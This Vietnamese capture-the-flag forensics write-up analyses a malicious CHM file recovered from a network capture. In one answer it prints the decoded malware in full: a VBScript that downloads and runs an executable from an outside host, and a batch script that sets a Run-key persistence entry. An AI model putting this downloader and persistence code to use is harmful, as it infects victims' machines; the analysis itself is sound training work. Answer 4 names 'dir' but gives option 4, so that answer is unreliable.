 # **INJECT 03**

## Question 1

Mã hash của tệp mã độc (100)  
Vui lòng thu thập tệp mã độc (không phải tệp nén).
Tính mã hash md5 và trả lời.

## Answer 1

Ta biết được file chứa mã độc được tải về là `manual.zip`.  
Mở file `pcap.pcapng` bằng `wireshark` để đọc lưu lượng mạng đã được capture.

Sử dụng filter để tìm gói tin, ta dễ dàng thấy được gói tin dùng để tải về file mã độc.
![alt text](images/image.png)

Trích xuất file manual.zip:

```
Follow HTTP stream > File > Export Objects > HTTP..
```

![alt text](images/image01.png)

Sau khi lưu file, sử dụng mật khẩu giải nén đã tìm được để unzip file:

![alt text](images/image02.png)

Giải nén ra được file `manual.chm`. Đó là file mã độc cần tìm, tiếp theo là hash md5:

```
md5sum manual.chm
```

![alt text](images/image03.png)

> 860f86601bc18dd205a5edc0d57a658d

## Question 2

Địa chỉ của C2 Server được sử dụng để nhận thông tin (100)  
Trả lời địa chỉ của C2 server theo dạng: IP:PORT

## Answer 2

Sử dụng Wireshark để follow streams.  
Ta thấy ở `stream 29` máy bị tấn công có gửi đi một lưu lượng chứa dữ liệu là kết quả trả về của lệnh dir:

![alt text](images/image04.png)

Xem ở `stream 28`, ta thấy được câu lệnh dir được gửi đi từ máy chủ C&C:

![alt text](images/image05.png)

> 43.201.253.28:5000

> > > Wireshark or analyze malware
> > > follow stream packet "command/post" > dir command > next stream have C&C server

## Question 3

Kẻ tấn công đã duy trì sự hiện diện (persistence) (100)  
Hãy gửi đường dẫn của tệp chương trình mà kẻ tấn công sử dụng làm backdoor duy trì sự hiện diện.

## Answer 3

Để tìm được cách kẻ tấn công duy trì sự hiện diện của mình thì cần phân tích file mã độc `manual.chm`.

Về nguyên lý hoạt động chung của loại mã độc này thì file `chm` bản chất là file nén các tệp tin lại để làm thành gói tài liệu của Windows.  
Mã độc để tấn công qua file chm thường được chèn vào mã `js` trong file `html`.  
Khi người dùng mở file, trình duyệt sẽ quét toàn bộ file chm và vô tình chạy script độc hại chèn trong đó.

Ta có thể đổi định dạng file `.chm` > `zip`:

![alt text](images/image06.png)

Mở file `MAGE User Guide.html`:

Sử dụng Inspect tool để kiểm tra các mã js, ta thấy có một đoạn mã js khả nghi:

![alt text](images/image07.png)

Ta thấy được đoạn script chứa lệnh cmd đã được mã hóa.  
Sử dụng Cyberchef để giải mã đoạn script đó.  
Sau khi giải mã ta thu được 2 đoạn script vbs:

```
Option Explicit

Dim strURL, strTempPath, strSaveTo
Dim objXML, objStream, objShell
Dim WshShell
Set WshShell = CreateObject("WScript.Shell")

Dim tempFolderPath
tempFolderPath = WshShell.ExpandEnvironmentStrings("%TEMP%")

Dim batFilePath
batFilePath = tempFolderPath & "\manual.bat"

WshShell.Run """" & batFilePath & """", 0, True

Set WshShell = Nothing

strURL = "http://43.203.173.81:8080"

Set objShell = CreateObject("WScript.Shell")
strTempPath = objShell.ExpandEnvironmentStrings("%TEMP%")

strSaveTo = strTempPath & "\menual.exe"

Set objXML = CreateObject("MSXML2.ServerXMLHTTP")

Set objStream = CreateObject("ADODB.Stream")
objStream.Open

objXML.Open "GET", strURL, False
objXML.Send

If objXML.Status = 200 Then
    objStream.Type = 1 '
    objStream.Write objXML.ResponseBody
    objStream.Position = 0

    objStream.SaveToFile strSaveTo, 1
    objStream.Close

    objShell.Run strSaveTo, 1, False

End If

Set objStream = Nothing
Set objXML = Nothing
Set objShell = Nothing
```

```
@echo off
setlocal

set "tempPath=%TEMP%"

set "programPath=%tempPath%\guide.vbs"

set "regKeyName=Manual"

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "%regKeyName%" /d "\"%programPath%\"" /f

endlocal
```

Ở đoạn script đầu tiên ta thấy được cách malware lưu phần mềm làm backdoor trong hệ thống là file `menual.exe`.  
Và đoạn script thứ 2 là để tạo 1 `registry key` có tác dụng set autostart cho backdoor đó.  
Như vậy, file mã độc để lưu sự hiện diện kẻ tấn công là menual.exe.

> C:\Users\user\AppData\Local\Temp\menual.exe

## Question 4

Câu lệnh C2 (100)  
Mã độc đã nhận được lệnh gì từ C2 Server?
Chọn 1 trong các đáp án

1. dir
2. whoami
3. ipconfig
4. ifconfig
5. ls

## Answer 4

Như đã tìm thấy ở trên. Câu lệnh C&C gửi tới là `dir`

> 4

## Question 5

Downloader (100)  
Sau khi được thực thi, mã độc đã tải về một tệp mã độc khác, hãy trả lời url được sử dụng để tải về.

## Answer 5

![alt text](images/image08.png)

> 43.203.173.81:8080

## Question 6

Mã hash của độc menual (100)  
Vui lòng trả lời mã hash md5 của mã độc menual đã được tải về.

## Answer 6

Tương tự như cách đã làm, chúng ta export file mã độc từ file pcap:

`md5sum menual.exe`

![alt text](images/image09.png)

> 0de9be1aba2e6dc3ce016fb24bfaad9e
